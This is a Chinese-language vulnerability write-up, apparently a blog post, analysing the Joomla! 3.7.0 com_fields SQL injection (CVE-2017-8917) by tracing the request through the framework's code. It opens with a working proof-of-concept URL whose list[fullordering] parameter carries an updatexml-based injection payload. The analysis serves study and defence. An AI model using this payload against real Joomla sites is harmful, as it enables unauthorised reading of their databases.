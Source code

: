 ```yaml
---
title: '[CVE-2017-8917]Joomla! 3.7.0 SQL Injection分析'
date: 2017-05-19 09:39:18
tags: [代码审计,SQL注入,漏洞分析]
categories: Web安全
---
```

Joomla!3.7.0 Core SQL注入漏洞.
<!-- more -->
# POC
这次干脆先放出poc吧。
```
http://localhost:2500/Joomla370/index.php?
option=com_fields
&view=fields
&layout=modal
&list[fullordering]=updatexml(1,concat(0x3e,database()),0)
```
这次根据参数的传入流程来进行分析。

# 漏洞
## 危害组件
3.7.0版本中出现了`com_field`组件,无需授权即可访问。查看`...\components\com_fields\controller.php`，在第27行左右，其相关代码如下：
```php
public function __construct($config = array())
	{
		$this->input = JFactory::getApplication()->input;

		// Frontpage Editor Fields Button proxying:
		if ($this->input->get('view') === 'fields' && $this->input->get('layout') === 'modal')
		{
			// Load the backend language file.
			$lang = JFactory::getLanguage();
			$lang->load('com_fields', JPATH_ADMINISTRATOR);

			$config['base_path'] = JPATH_COMPONENT_ADMINISTRATOR;
		}

		parent::__construct($config);
	}
```
可以看到它先判断通过`view`是否等于`fields`,`layout`是否等于`modal`,而这两个参数都是我们可控的。若满足则将会加载`JPATH_ADMINISTRATOR`中的`com_fields`组件，并且将`base_path`设置为 `JPATH_COMPONENT_ADMINISTRATOR`，之后调用父类的构造方法。

## 传入sql语句
在调用父类构造方法后，一路运行到`...\Joomla370\libraries\legacy\controller\legacy.php`中，约莫707行，这时会通过`$this->$doTask`调用`display()`函数。

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/calldisplay.jpg)

跟进`display()`函数，它位于 `...\Joomla370\libraries\legacy\controller\legacy.php`，接着运行至legacy.php的约莫671行左右，调用了视图（view）的`display()`函数。我们跟进一下，跳转进入`...\Joomla370\administrator\components\com_fields\views\fields\view.html.php`，

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/viewdisplay2.jpg?raw=true)

此时运行到，下面这条语句，给`get()`传入的参数为`State`

```php
$this->state         = $this->get('State');
```

我们跟进这个`get()`函数，一直运行到422行，

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/getState.jpg?raw=true)

之后将会调用 `getState()`，跟进，进入`...\Joomla370\libraries\legacy\model\legacy.php`

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/callpopulateState.jpg)

之后会调用filedsModel类中的`populateState()`，跟进后会发现调用其父类的`populateState()`函数，其定义在 `...\Joomla370\libraries\legacy\model\list.php`中，约莫在第495行，相关代码如下：
```php
..省略..

if ($list = $app->getUserStateFromRequest($this->context . '.list', 'list', array(), 'array'))

..省略..
```
这里我们先跟进一下`getUserStateFromRequest()`，它的定义在`...\Joomla370\libraries\cms\application\cms.php`中，在该函数结束后，它获取了我们通过get方法传入的参数，也就是说，我们成功的控制了`fullordering`的值。

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/fullordering.jpg)

在该函数运行完后，流程将会回到前面的那个定义在`...\Joomla370\libraries\cms\application\cms.php`中的`populateState()`函数。此时运行的代码如下：
```php
	foreach ($list as $name => $value)
	{
		// Exclude if blacklisted
		if (!in_array($name, $this->listBlacklist))
		{
			// Extra validations
			switch ($name){...}
			$this->setState('list.' . $name, $value);
		}
	}
```
如果数组的key不在黑名单（blacklisted）中，将会为`$list`变量根据相应的`State`进行注册，在这部分函数运行到结束部分，可以看见成功的控制了`list`数组的`fullordering`的值。

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/thissetstate.jpg?raw=true)

查看变量，如下：

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/arraylist.jpg?raw=true)

## 注入过程
接下来继续运行，一直运行回到`Joomla370\administrator\components\com_fields\views\fields\view.html.php`中的`display()`函数中。

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/getitem.jpg?raw=true)

跟进这一行 `$this->get('Items');`，进入`...\Joomla370\libraries\legacy\view\legacy.php`，约莫在422行,这里的行为跟前面分析类似，此后将会调用`getitem()`：

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/callgetitem.jpg?raw=true)

继续跟进，进入`...\Joomla370\libraries\legacy\model\list.php`，约莫在186行：
```php
try
	{
		// Load the list items and add the items to the internal cache.
		$this->cache[$store] = $this->_getList($this->_getListQuery(), $this->getStart(), $this->getState('list.limit'));
	}
```
通过`_getList`调用了`_getListQuery`,继续跟进，进入`...\Joomla370\libraries\legacy\model\list.php`，约莫在 132行，
```
if ($lastStoreId != $currentStoreId || empty($this->query))
{
	$lastStoreId = $currentStoreId;
	$this->query = $this->getListQuery();
}
```
调用了 `getListQuery()`，继续跟进，进入 `...\Joomla370\administrator\components\com_fields\models\fields.php`,一直运行到约莫在 305 行，调用`getState`方法，传入`list.fullordering`参数。相关代码如下：

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/listordering2.jpg?raw=true)

查看变量表：

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/listfullordering3.jpg?raw=true)

之后在第314行，将`$listOrdering`带入查询，相关代码如下：
```php
$query->order($db->escape($listOrdering) . ' ' . $db->escape($orderDirn));
```

在进行`$query->order`之前，会先进行一次过滤，跟进`$db->escape`，进入`...\Joomla370\libraries\joomla\database\driver\mysqli.php`，约莫242行，相关代码如下：
```php
public function escape($text, $extra = false)
	{
		$this->connect();

		$result = mysqli_real_escape_string($this->getConnection(), $text);

		if ($extra)
		{
			$result = addcslashes($result, '%_');
		}

		return $result;
	}
```
对于传入的`$text`通过`mysqli_real_escape_string()`进行过滤，只转义了一些字符。因此可以通过构造进行成功的注入。

# 成功注入

![](https://github.com/CHYbeta/chybeta.github.io/raw/master/images/pic/20170519/poc.jpg?raw=true)
